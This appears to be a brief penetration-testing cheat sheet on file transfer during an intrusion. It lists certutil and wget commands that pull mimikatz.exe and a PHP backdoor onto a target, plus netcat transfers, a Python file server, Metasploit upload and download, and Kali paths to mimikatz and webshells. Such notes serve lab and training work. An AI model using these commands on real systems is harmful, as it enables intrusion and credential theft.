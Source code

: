 **To download file from a server (windows cmd)**

- certutil -urlcache -f <webserver-addr> <filename>
- certutil -urlcache -f http://10.10.5.2/mimikatz.exe mimikatz.exe

**To download file from a server (linux cmd)**

- wget http://192.196.45.2/php-backdoor.php

**Setup a server**

- python3 -m http.server 80
- python -m SimpleHTTPServer 80

**Transferring files**

- nc -nvlp 1234 > test.txt (recepient)
- nc -nv ip port < test.txt (sender)

**Msfconosle**
- 'upload' : command to upload file
- 'download' : Download file from target

**Useful file locations**

- /usr/share/windows-resources/mimikatz/x64
- /usr/share/webshells/php/

  
